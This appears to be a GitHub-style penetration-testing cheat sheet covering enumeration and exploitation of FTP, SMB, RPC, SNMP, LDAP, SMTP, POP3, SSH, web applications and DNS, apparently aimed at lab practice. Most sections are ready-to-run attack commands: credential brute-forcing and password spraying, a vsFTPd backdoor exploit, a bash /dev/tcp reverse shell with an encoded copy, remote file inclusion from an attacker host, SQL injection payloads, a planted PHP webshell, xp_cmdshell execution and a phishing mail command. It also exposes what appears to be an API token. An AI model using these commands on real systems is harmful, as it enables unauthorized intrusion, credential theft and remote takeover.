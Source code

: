 ## **🛡️ Network Protocols**

### Network protocols allow devices to communicate and exchange data over a network. Here’s an expanded explanation of some commonly used protocols in penetration testing:
---
### **1.📂 FTP (File Transfer Protocol)**
<details>
<summary>📝 Click to expand FTP Information</summary>
 <br>   
- **Port:** 21 (TCP)
- **Function:** FTP is used for transferring files between a client and a server. FTP operates over two channels:
    - **Control channel** (for sending commands)
    - **Data channel** (for transferring the actual files).
- **Common Security Issues:**
    - **Anonymous login:** Some FTP servers are misconfigured to allow anonymous logins, providing unauthorized access to files.
    - **Clear-text credentials:** FTP sends usernames and passwords in clear text, making it vulnerable to sniffing attacks.

---

### **1.1. Penetration Testing on FTP**
FTP enumeration
```bash
ftp <IP>
#login if you have relevant creds or based on nmap scan find out whether this has an anonymous login or not, then login with Anonymous:password

put <file> #uploading file
get <file> #downloading file

#NSE
locate .nse | grep ftp
nmap -p21 --script=<name> <IP>

#bruteforce
hydra -L users.txt -P passwords.txt <IP> ftp #'-L' for usernames list, '-l' for username and vice versa

# Check for vulnerabilities associated with the identified version.
```
![image](https://github.com/user-attachments/assets/70094f78-e27a-446e-a97f-6eb39cff347c)

---
### **1.1.1. Anonymous Login**

When performing penetration testing, an attacker can attempt to log in using **anonymous credentials** if the FTP server allows it. Many misconfigured FTP servers allow anonymous access for easier file sharing, which is a security risk.

**Example FTP login attempt:**

```bash

ftp 192.168.188.131
Name: Anonymous
Password: Anonymous

```
![image](https://github.com/user-attachments/assets/00f9a1e5-3e22-4ad2-86cc-10d990b43574)


If the server allows anonymous login, you will be able to interact with the server and explore its contents.

---

### **1.1.2. Sniffing FTP Credentials (Clear-text Passwords)**

Because FTP doesn’t encrypt traffic, usernames and passwords are sent in clear text. An attacker can use sniffing tools to capture this data, which can be used to compromise the server.

- **Wireshark:** A tool that can capture network packets and allow an attacker to see the FTP credentials.

**How to sniff credentials:**

1. **Start an FTP session**:
    
    ```bash
    
    ftp 192.168.188.131
    
    ```
    
2. **Capture the traffic using Wireshark.**
3. **Follow the TCP stream** to see the credentials:
    - Look for packets containing the string `"PASS"` in Wireshark, which indicates the password being sent.

**Filter clear-text credentials:**

```
frame contains "PASS"
```
![image](https://github.com/user-attachments/assets/84ba48da-79ce-4da8-89d0-0158d5ee9db2)

---

### **1.1.3. FTP Brute-Force Attack (Hydra)**

**Hydra** is a popular tool for performing brute-force attacks against various services, including FTP. It can attempt multiple combinations of usernames and passwords to gain unauthorized access.

**Example of brute-forcing FTP login:**

```bash

hydra -L user -P pass 192.168.188.131 ftp
hydra -L wordlist.txt -P wordlist.txt 192.168.188.131 ftp
use: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

```

- **L** specifies a file with usernames.
- **P** specifies a file with passwords.
- **ftp** is the target protocol.

The **wordlist** file contains a list of possible usernames or passwords to be tried. A strong wordlist (such as **rockyou.txt**) increases the chance of success.
![image](https://github.com/user-attachments/assets/eafa1572-24ac-4ef1-93bd-6734b79ad5e0)

---

### **1.1.4. FTP Remote Shell via Nmap Script**

You can also use **Nmap** to exploit specific vulnerabilities in FTP servers. The `ftp-vsftpd-backdoor.nse` script is designed to exploit a vulnerability in **vsFTPd 2.3.4**, which contains a backdoor.

**Example Nmap command to check for the backdoor:**

```bash

sudo nmap -p 21 192.168.188.131 -sV --script ftp-vsftpd-backdoor.nse

```

This will test if the FTP server is vulnerable to the **vsFTPd backdoor**. If the server is vulnerable, you may be able to execute commands remotely.
![image](https://github.com/user-attachments/assets/48113953-c487-4bfa-bf04-49b376c60901)

---

### **1.1.5. Exploiting FTP Vulnerabilities with Metasploit**

Metasploit is another powerful tool used for exploiting vulnerabilities in systems. If the FTP server is running a vulnerable version of vsFTPd (e.g., **vsFTPd 2.3.4**), Metasploit can be used to exploit it.

**Steps to exploit vsFTPd 2.3.4 with Metasploit:**

1. **Search for the exploit:**
    
    ```bash
    
    msfconsole
    search vsftpd 2.3.4
    
    ```
    
2. **Use the exploit:**
    
    ```bash
  
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 192.168.188.131
    exploit
    
    ```
    
3. **Interact with the remote shell:**
    
    ```bash
   
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    ```
    

By exploiting this vulnerability, you can get access to the **root** account on the target machine.
![image](https://github.com/user-attachments/assets/2c266ec1-e757-4442-970e-cc713e589347)

</details> 

### **2.📦 NFS (Network File System)**
<details>
<summary>📝 Click to expand NFS Information</summary>
 <br>
NFS allows a system to share its files with other systems over a network. It enables the mounting of remote file systems and interaction with them as if they were local.

**Example Nmap command to scan for NFS services:**

```bash

nmap -p2049 -sV 192.168.188.131

```

If NFS is exposed publicly, it can be mounted to the local machine and files can be accessed.

**Mounting NFS share:**

```bash

sudo mount 192.168.188.131:/ /home/kali/Downloads/nfs -nolock

```

This allows you to access shared files from the remote NFS server.
![image](https://github.com/user-attachments/assets/34ad4003-778a-4011-b5ee-1c63e17adf4a)

**Troubleshooting NFS Mount Permission Issues:**

If you encounter **Permission Denied**, ensure that you have the correct NFS version and permissions configured.
https://blog.christophetd.fr/write-up-vulnix/
**To use NFSv3 (if needed):**

```bash

sudo mount -t nfs -o vers=3 192.168.188.137:/home/vulnix /home/kali/Downloads/nfs/home/vulnix -nolock

```
Let’s take a closer look at the permissions. 
```bash
ls -ld vulnix
```
If only Particuler user or group have access to the Path:
create a user group:
```jsx
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --groups vulnix_group vulnix
sudo -u vulnix ls -l vulnix
```

![image](https://github.com/user-attachments/assets/c5978efc-c909-48b1-8165-5705d484ef0a)


DEBUG

```jsx
id vulnix
```

Ensure it outputs:

```jsx
uid=2008(vulnix) gid=2008(vulnix_group) groups=2008(vulnix_group)
```

If the UID or GID is incorrect, you must delete and recreate the user with:

```jsx
sudo userdel vulnix
sudo groupdel vulnix_group
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --gid 2008 --groups vulnix_group vulnix
```

Now, try accessing the directory as `vulnix_user`:
![image](https://github.com/user-attachments/assets/90546368-1291-4e7a-b7c9-52a148eef779)

</details>

### **3.🗂️ SMB (Server Message Block)**
<details>
<summary>📝 Click to expand  SMB Information</summary>
 <br>
SMB is a protocol used for file and printer sharing, as well as inter-process communication between computers.

**Example Nmap command to scan for SMB services:**

```bash

sudo nmap -p 445 -sV -sC 192.168.188.131
locate .nse | grep smb
nmap -p445 --script="name" $IP 

```
![image](https://github.com/user-attachments/assets/5f4b1ffc-baab-4de5-9c0f-dcb520401b1c)


**Enumerating SMB Shares:**

```bash
#In windows we can view like this
net view \\<computername/IP> /all

enum4linux -L -S 192.168.188.131
smbclient -L 192.168.188.131 -N
smbmap -H 192.168.188.131
#If you got user name and password:
smbmap -H 192.168.188.131 -u "msfadmin" -p "msfadmin" -r tmp -A '.*' -q

```

**Brute-forcing SMB credentials:**

```bash

hydra -l admin -P /home/kali/pass.txt smb://192.168.188.131
or
netexec smb 192.168.188.131 -u admin -p /home/kali/pass.txt --continue-on-success

```
![image](https://github.com/user-attachments/assets/c592d34d-613f-49b5-9a92-c3b8c951958a)
```bash
# Smbclient
smbclient -L //IP #or try with 4 /'s
smbclient //server/share
smbclient //server/share -U <username>
smbclient //server/share -U domain/username

#SMBmap
smbmap -H <target_ip>
smbmap -H <target_ip> -u <username> -p <password>
smbmap -H <target_ip> -u <username> -p <password> -d <domain>
smbmap -H <target_ip> -u <username> -p <password> -r <share_name>

#Within SMB session
put <file> #to upload file
get <file> #to download file
```
Downloading shares is easy—if the folder consists of several files, they will all be downloaded by this.
```bash
mask ""
recurse ON
prompt OFF
mget *
```
**Exploit SMB:**
Try to connect with no pass

```jsx
smbclient --no-pass //192.168.188.131/tmp
```

login as Anonymous:

![image](https://github.com/user-attachments/assets/1e13a6c6-3293-4bf3-a01e-bb3303698da0)


since we have smb access i tried:
```jsx
put rev.sh
posix 
chmod +x rev.sh
chown Anonymous rev.sh
open rev.sh
```
But didnt work:
Failed to open file /rev.sh. NT_STATUS_ACCESS_DENIED
![image](https://github.com/user-attachments/assets/4a71afb8-42f0-471e-bebb-bc7bc0a83107)

SMB Version Samba 3.0.20 found, search for exploits:
```bash
searchsploit samba 3.0.20  
locate multiple/remote/10095.txt
cat /usr/share/exploitdb/exploits/multiple/remote/10095.txt
```
![image](https://github.com/user-attachments/assets/6603e3bd-03ea-4424-8d4c-f3aac3acdd52)

</details>

### **4.🔌 RPC (Remote Procedure Call)**
<details>
<summary>📝 Click to expand RPC Information</summary>
 <br>
RPC allows a program on one computer to execute a procedure on another computer.

**Enumerating with RPCClient:**
**Connect to RPC server with an anonymous bind:**
```bash

$ rpcclient -U "" -N <target>
srvinfo
enumdomusers #Enumerate Domain Users
enumpriv #like "whoami /priv"
queryuser <user> #detailed user info
getuserdompwinfo <RID> #password policy, get user-RID from previous command
getdompwinfo #Get Domain Password Info
lookupnames <user> #SID of specified user
createdomuser <username> #Creating a user
deletedomuser <username>
enumdomains
enumdomgroups # Enumerate Domain Groups
querygroup <group-RID> #get rid from previous command
querydispinfo #description of all users
querygroupmem 0x200 #Query Group Membership
netshareenum #Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenumall
lsaenumsid #SID of all users

```

This will provide information about the target system and its users.
![image](https://github.com/user-attachments/assets/1a5d498c-8a6d-4a91-b017-69b62a6cb5e2)

“RID are relative identifier to identify an object which will be in hexa decimal format”

![image](https://github.com/user-attachments/assets/d3e9af35-e0b2-4c72-b893-e7a24141b82a)

**Password Spray Attack**

The following script will iterate over usernames and passwords and try to execute "getusername". Watch out for "ACCOUNT_LOCKED" error messages.

```
TARGET=10.10.10.10;
while read username; do
  while read password; do
    echo -n "[*] user: $username" && rpcclient -U "$username%$password" -c "getusername;quit" $TARGET | grep -v "NT_STATUS_ACCESS_DENIED";
  done < /path/to/passwords.txt
done < /path/to/usernames.txt
```

If a password is found, use it with smbclient to explore the SYSVOL:

```
$ smbclient -U "username%password" \\\\<target>\\SYSVOL
Domain=[HOME] OS=[Windows Server 2008]
...
smb: \> ls
...
```
---

### **5.📡 SNMP (Simple Network Management Protocol)**

SNMP is used to manage and monitor network devices. It can be exploited if the community string is weak or known (like **public** or **private**).
![image](https://github.com/user-attachments/assets/c4d02453-3331-4739-bf58-f38aea7a6133)

**Example SNMP enumeration with `snmpcheck`:**

```bash

snmpcheck -c public -h 192.168.188.131
snmpcheck -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP> #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25 #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2 #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2 #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3 #Opened TCP Ports

#Windows MIB values
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports

```
if community string was public try to connect with snmpcheck
![image](https://github.com/user-attachments/assets/1eef5dc1-7a3e-40e9-9b37-ce2bfea237d9)

try to use snmp walk
![image](https://github.com/user-attachments/assets/3a136368-a50b-4fb4-a7dd-63d72ed69358)

**Brute-forcing SNMP community strings:**

```bash

onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.146.156
or
snmpwalk -v1 -c public 192.168.146.156 NET-SNMP-EXTEND-MIB :: nsExtendObjects

```
https://hacktricks.boitatech.com.br/pentesting/pentesting-snmp/snmp-rce

</details>

### **6.📚 LDAP (Lightweight Directory Access Protocol)**
<details>
<summary>📝 Click to expand LDAP Information</summary>
 <br>
LDAP is a protocol used to access and maintain directory information. It is commonly used for managing user information and authentication.

**Enumerating LDAP:**

```bash

ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com"
ldapsearch -x -H ldap://<IP>:<port> # try on both ldap and ldaps, this is first command to run if you dont have any valid credentials.

ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
#CN name describes the info we're collecting
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"

#windapsearch.py
#for computers
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --computers

#for groups
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --groups

#for users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --da

#for privileged users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --privileged-users

```

You can also enumerate users and gather information from LDAP directories.

**Using Metasploit for LDAP enumeration:**

```bash

msfconsole
use auxiliary/gather/ldap_query
set RHOSTS <IP>
set BASE "dc=example,dc=com"
run

```

</details>

### **7. SMTP (Simple Mail Transfer Protocol)**
<details>
 <summary>📝 Click to expand SMTP Information</summary>
 <br>
SMTP is used for sending and receiving emails. It can be exploited in cases of misconfiguration, such as **open relay** or **user enumeration**.

**Enumerating SMTP:**

```bash
nc -nv <IP> 25 #Version Detection
smtp-user-enum -M VRFY -U username.txt -t <IP> # -M means mode; it can be RCPT, VRFY, EXPN

#Sending email with valid credentials, the below is an example of Phishing mail attack
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

```

This can be used to find valid email addresses on the target system.

**Exploiting Open Relay (sending emails):**

```bash

telnet <IP> 25
HELO attacker.com
MAIL FROM: attacker@attacker.com
RCPT TO: victim@victim.com
DATA
Subject: Test
This is a test email.
.

```
</details>

### **8. POP3**
<details>
<summary>📝 Click to expand POP3 Information</summary>
 <br>
**Post Office Protocol** \(**POP**\) is a type of computer networking and Internet standard **protocol** that extracts and retrieves email from a remote mail server for access by the host machine. **POP** is an application layer **protocol** in the OSI model that provides end users the ability to fetch and receive email \(from [here](https://www.techopedia.com/definition/5383/post-office-protocol-pop)\).

The POP clients generally connect, retrieve all messages, store them on the client system, and delete them from the server. There are 3 versions of POP, but POP3 is the most used one.

**Default ports:** 110, 995\(ssl\)

```text
PORT    STATE SERVICE
110/tcp open  pop3
```

## Enumeration

### Banner Grabbing

```bash
nc -nv <IP> 110
openssl s_client -connect <IP>:995 -crlf -quiet
```

## Manual

You can use the command `CAPA` to obtain the capabilities of the POP3 server.

## Automated

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port <PORT> <IP> #All are default scripts
```

The `pop3-ntlm-info` plugin will return some "**sensitive**" data \(Windows versions\).

### [POP3 bruteforce](../brute-force.md#pop)

## POP syntax

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

From [here](http://sunnyoasis.com/services/emailviatelnet.html)

Example:

```text
root@kali:~# telnet $ip 110
 +OK beta POP3 server (JAMES POP3 Server 2.3.2) ready 
 USER billydean    
 +OK
 PASS password
 +OK Welcome billydean

 list

 +OK 2 1807
 1 786
 2 1021

 retr 1

 +OK Message follows
 From: jamesbrown@motown.com
 Dear Billy Dean,

 Here is your login for remote desktop ... try not to forget it this time!
 username: billydean
 password: PA$$W0RD!Z
```

```

### Identifying Issues

- Clear-text authentication (no SSL/TLS).
- Weak credentials (try common usernames/passwords).
- Default or anonymous access.

### Exploiting

```bash

# Manual login attempt
telnet <IP> 110
USER <username>
PASS <password>

# Hydra brute force
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 110 -vV <IP> pop3

```

### References

- HackTricks - POP3
- POP3 RFC 1939
</details>

### **9.🔒 SSH**
<details>
<summary>📝 Click to expand SSH Information</summary>
 <br>
**Secure Shell (SSH)** is a cryptographic network protocol designed for secure communication over an unsecured network. It is primarily used for remote login and command-line execution, replacing older, less secure protocols like Telnet and rlogin
https://www.ssh.com/academy/ssh/public-key-authentication

## SSH enumeration

```
#Login
ssh uname@IP #enter the password in the prompt

#id_rsa or id_ecdsa file
chmod 600 id_rsa/id_ecdsa
ssh uname@IP -i id_rsa/id_ecdsa #if it still asks for the password, crack it using John

#cracking id_rsa or id_ecdsa
ssh2john id_ecdsa(or)id_rsa > hash
john --wordlist=/home/sathvik/Wordlists/rockyou.txt hash

#bruteforce
hydra -l uname -P passwords.txt <IP> ssh #'-L' for usernames list, '-l' for username and vice versa

# Check for vulnerabilities associated with the identified version.
```
Use full commands:
- `t rsa`: Specifies the RSA algorithm.
- `b 4096`: Specifies the key length (4096 bits is recommended).
- You can also use `b 2048` for a shorter key length.
- **Follow the prompts:**
- Enter the path to save the key (default is `~/.ssh/id_rsa`).
- Enter a passphrase for the private key (optional but recommended for security).
- You'll have a public key (`~/.ssh/id_rsa.pub`) and a private key (`~/.ssh/id_rsa`).

**2. Copy the Public Key to the Server:**

Use the ssh-copy-id command.

Code

```jsx
    ssh-copy-id -i ~/.ssh/id_rsa.pub user@server_ip_or_hostname
```

- Replace `user` with your username on the server.
- Replace `server_ip_or_hostname` with the server's IP address or hostname.
- **Alternatively, manually copy the public key:**
- Read the contents of `~/.ssh/id_rsa.pub`.
- SSH into the server.
- Create the directory `~/.ssh` if it doesn't exist.
- Create or edit the file `~/.ssh/authorized_keys`.
- Append the contents of your public key to the `authorized_keys` file.
- Change the permissions of `~/.ssh` to `700` and `authorized_keys` to `600`.

Code

```jsx
    mkdir -p ~/.ssh    chmod 700 ~/.ssh   
    touch ~/.ssh/authorized_keys    
    chmod 600 ~/.ssh/authorized_keys    
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

**3. Log in with the Private Key:**

- **Open your terminal**: on your local machine.
- Use the `ssh` command with the `i` option:
  ```jsx
  ssh -i ~/.ssh/id_rsa user@server_ip_or_hostname
  ssh -oHostKeyAlgorithms=+ssh-rsa TCM@10.10.81.58 -p22
  ```
  ![image](https://github.com/user-attachments/assets/bdb18c28-6296-4013-bd28-4d6edafd81e9)
</details>
  
### **10. HTTP/S enumeration**
<details>
<summary>📝 Click to expand HTTP Information</summary>
 <br>
- View the source code and identify any hidden content. If an image looks suspicious, download it and try to find hidden data in it.
- Identify the version or CMS and check for active exploits. This can be done using Nmap and Wappalyzer.
- check /robots.txt folder
- Look for the hostname and add the relevant one to `/etc/hosts` file.
- Directory and file discovery - Obtain any hidden files that may contain juicy information

```
dirbuster
gobuster dir -u http://example.com -w /path/to/wordlist.txt
python3 dirsearch.py -u http://example.com -w /path/to/wordlist.txt
```

- Vulnerability Scanning using nikto: `nikto -h <url>`
- `HTTPS`SSL certificate inspection, may reveal information like subdomains, usernames…etc
- Default credentials: Identify the CMS or service, check for default credentials, and test them out.
- Bruteforce

```
hydra -L users.txt -P password.txt <IP or domain> http-{post/get}-form "/path:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for https, post, or get, which can be obtained from Burpsuite. Also, capture the response for detailed information.

#Bruteforce can also be done by Burpsuite but it's slow, prefer Hydra!
```

- if `cgi-bin` is present, then do further fuzzing and obtain files like .sh or .pl
- Check if other services like FTP/SMB or any other that has upload privileges are getting reflected on the web.
- API - Fuzz further, and it can reveal some sensitive information

```
#identifying endpoints using gobuster
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern #pattern can be like {GOBUSTER}/v1 here v1 is just for example, it can be anything

#obtaining info using curl
curl -i http://192.168.50.16:5002/users/v1
```

- If there is any Input field check for **Remote Code execution** or **SQL Injection**
- Check the URL, whether we can leverage **Local or Remote File Inclusion**.
- Also check if there’s any file upload utility(also obtain the location it’s getting reflected)

**Wordpress**

```
# basic usage
wpscan --url "target" --verbose

# enumerate vulnerable plugins, users, vulnerable themes, timthumbs
wpscan --url "target" --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log

# Add Wpscan API to get the details of vulnerabilties.
wpscan --url http://alvida-eatery.org/ --api-token NjnoSGZkuWDve0fDjmmnUNb1ZnkRw6J2J1FvBsVLPkA

#Accessing Wordpress shell
http://10.10.67.245/retro/wp-admin/theme-editor.php?file=404.php&theme=90s-retro

http://10.10.67.245/retro/wp-content/themes/90s-retro/404.php
```

**Drupal**

```
droopescan scan drupal -u http://site
```

**Joomla**

```
droopescan scan joomla --url http://site
sudo python3 joomla-brute.py -u http://site/ -w passwords.txt -usr username #https://github.com/ajnik/joomla-bruteforce
```
### **Web Attacks**

💡 Cross-platform PHP revershell: [

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php))

**Directory Traversal**

```
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

**Local File Inclusion**

- The main difference between Directory traversal and this attack is that we can execute commands remotely here.

```
#At first we need
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```

- Remote file inclusion

```
1. Obtain a php shell
2. host a file server
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

**SQL Injection**

```
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

- Blind SQL Injection - This can be identified by Time-based SQLI

```
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

```
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from the web, then follow the below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```

- SQLMap - Automated Code Execution

```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```
</details>

### **11. DNS enumeration**
<details>
<summary>📝 Click to expand DNS Information</summary>
 <br>
- Better use `Seclists` wordlists for better enumeration. https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

```
host www.megacorpone.com
host -t mx megacorpone.com
host -t txt megacorpone.com

for ip in $(cat list.txt); do host $ip.megacorpone.com; done #DNS Bruteforce
for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found" #bash bruteforcer to find domain name

## DNS Recon
dnsrecon -d megacorpone.com -t std #standard recon
dnsrecon -d megacorpone.com -D ~/list.txt -t brt #bruteforce, hence we provided list

# DNS Bruteforce using dnsenum
dnsenum megacorpone.com

## NSlookup, a gold mine
nslookup mail.megacorptwo.com
nslookup -type=TXT info.megacorptwo.com 192.168.50.151 #We are querying the information from a specific IP, here it is 192.168.50.151. This can be very useful
```
</details>

